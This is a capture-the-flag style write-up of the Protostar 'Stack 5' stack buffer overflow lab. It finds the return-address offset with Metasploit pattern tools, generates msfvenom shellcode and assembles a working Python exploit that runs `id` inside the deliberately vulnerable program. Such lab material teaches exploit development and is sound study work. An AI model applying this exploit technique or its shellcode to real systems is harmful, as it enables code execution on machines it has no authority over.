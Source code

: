 # Stack 5

## About

Stack5 is a standard buffer overflow, this time introducing shellcode.

Hints
* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
* remove the int3s once your shellcode is done.

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];
  
    gets(buffer);
	}
	
```

## Solution

So this time we have to make an full buffer overflow exploit. 

i started crafting the following script that i would fill out when i find the values 

``` python
#!/usr/bin/env python

junk =
retaddr =
shellcode =


exploit = junk + retaddr + shellcode
print(exploit)
```

right so lets find out how much junk is needed. 

like last time i use the metasploit pattern tools 

``` bash
[root:/opt/Data/5]# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100 > pattern
```

``` bash
[root:/opt/Data/5]# gdb ./stack5

pwndbg> run < pattern
```

and the segmentation fault is at `0x63413563`

ok now to find the offset 

``` bash 
[root:/opt/Data/5]# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
[*] Exact match at offset 76
```
right so i change the junk value in the script to 76 

for the return address i looks at the registers after the crash and examin the `ESP` value a bit more 

``` bash
*EAX  0xffffd890 ◂— 'Aa0Aa1Aa2Aa3Aa4...'
 EBX  0x0
 *ECX  0xfbad2088
 *EDX  0xf7fc587c (_IO_stdfile_0_lock) ◂— 0
 *EDI  0xf7fc4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x2d /* 0x1b2db0 */
 *ESI  0x1
 *EBP  0x41346341 ('Ac4A')
 *ESP  0xffffd8e0 ◂— '6Ac7Ac8Ac9Ad0Ad...'
 *EIP  0x63413563 ('c5Ac')
```

``` bash
pwndbg> x/10s $esp
0xffffd8e0:     "6Ac7Ac8Ac9Ad0Ad"...
0xffffd8ef:     "1Ad2A"
0xffffd8f5:     ""
0xffffd8f6:     ""
0xffffd8f7:     ""
0xffffd8f8:     ""
0xffffd8f9:     "@\374\367\004\334\377", <incomplete sequence \367>
0xffffd901:     "\320\377", <incomplete sequence \367>
0xffffd905:     ""
0xffffd906:     ""
```
ok so i can put `0xffffd8e0` as my return address, lets try the following to confirm 

``` bash
python -c 'print "A"* 76 + "B" * 4' > test 
```
and then look at it in gdb

``` bash
*EAX  0xffffd890 ◂— 'AAAAAAAAAAAAAAA...'
 EBX  0x0
 *ECX  0xfbad2088
 *EDX  0xf7fc587c (_IO_stdfile_0_lock) ◂— 0
 *EDI  0xf7fc4000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x2d /* 0x1b2db0 */
 *ESI  0x1
 *EBP  0x41414141 ('AAAA')
 *ESP  0xffffd8e0 ◂— 0x0
 *EIP  0x42424242 ('BBBB')
```

ok looking good 

time for some shellcode, to generate the shellcode i use the following from msfvenom

``` bash
[root:/opt/Data/5]# msfvenom -p linux/x86/exec CMD=id --smallest -f python -b '\x00' -n 4 -v shellcode
```

and i update the script as follows 

``` python
#!/usr/bin/env python

junk = 'A'*76
retaddr = '\xe0\xd8\xff\xff' 
shellcode =  ""
shellcode += "\x4a\x98\x9b\x4a\x6a\x25\x59\xe8\xff\xff\xff\xff"
shellcode += "\xc1\x5e\x30\x4c\x0e\x07\xe2\xfa\x6b\x09\x5b\x9d"
shellcode += "\x57\x60\x6f\x25\x6a\x83\xec\x64\x22\x7d\x67\x10"
shellcode += "\x79\x3d\x71\x7d\x7b\x9f\xf4\x4a\xf1\x19\x1b\x1c"
shellcode += "\x1d\x77\x7b\x20\x76\x71\xaa\xc5\xe8\xa6"

exploit = junk + retaddr + shellcode
print(exploit)

```
ok, its show time, i generate the payload and then open it with gdb, i should see 2 processes in gdb

``` bash
[root:/opt/Data/5]# python ./5.py > exploit
```

``` bash
pwndbg> r <exploit
Starting program: /opt/Data/5/stack5 <exploit
process 23752 is executing new program: /bin/dash
[New process 23756]
process 23756 is executing new program: /usr/bin/id
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
uid=0(root) gid=0(root) groups=0(root)
[Inferior 2 (process 23756) exited normally]
```

There we have it, we command injection as the output of `id` was shown and 2 processes were executed ! 
